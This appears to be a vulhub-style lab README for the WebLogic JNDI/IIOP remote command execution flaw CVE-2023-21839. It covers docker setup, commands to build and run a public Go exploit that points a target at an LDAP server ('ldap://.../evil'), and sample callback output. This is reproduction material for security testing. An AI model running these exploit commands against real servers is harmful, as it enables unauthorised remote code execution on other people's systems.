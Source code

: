 # Weblogic Pre-Auth Remote Command Execution (CVE-2023-21839)

[中文版本(Chinese version)](README.zh-cn.md)

Oracle WebLogic Server is the industry leading application server for building enterprise applications using Java EE standards, and deploying them on a reliable, scalable runtime with low cost of ownership.

In [Oracle Critical Patch Update Advisory - January 2023](https://www.oracle.com/security-alerts/cpujan2023.html), Oracle fixed this security vulnerability.

CVE-2023-21839 allow remote users to make a JNDI lookup operation through IIOP without authorization, which may cause RCE vulnerability when JDK version is too low or there is a gadget (use javaSerializedData) locally.

References:

- https://www.oracle.com/security-alerts/cpujan2023.html

## Environment Setup

Start a Weblogic server 12.2.1.3 by executing the following command:

```
docker-compose up -d
```

After the startup is complete, visit `http://your-ip:7001/console` to view the administrator console login page.

## Exploit

https://github.com/4ra1n/CVE-2023-21839

```shell
cd cmd
go build -o CVE-2023-21839
./CVE-2023-21839 -ip 127.0.0.1 -port 7001 -ldap ldap://127.0.0.1:1389/evil
```

Windows

```shell
cd cmd
go build -o CVE-2023-21839.exe
CVE-2023-21839.exe -ip 127.0.0.1 -port 7001 -ldap ldap://127.0.0.1:1389/evil
```

DNS Log

```shell
CVE-2023-21839.exe -ip 192.168.25.129 -port 7001 -ldap ldap://kmi896.dnslog.cn/test
[*] your-ip: 192.168.25.129
[*] your-port: 7001
[*] your-ldap: ldap://kmi896.dnslog.cn/test
[*] weblogic 12
[*] id=2 LocateRequest
[*] id=3 RebindRequest
[*] id=4 RebindRequest
[*] id=5 LocateRequest
[*] id=6 ResolveRequest
[*] id=7 ResolveRequest
```

![](1.png)
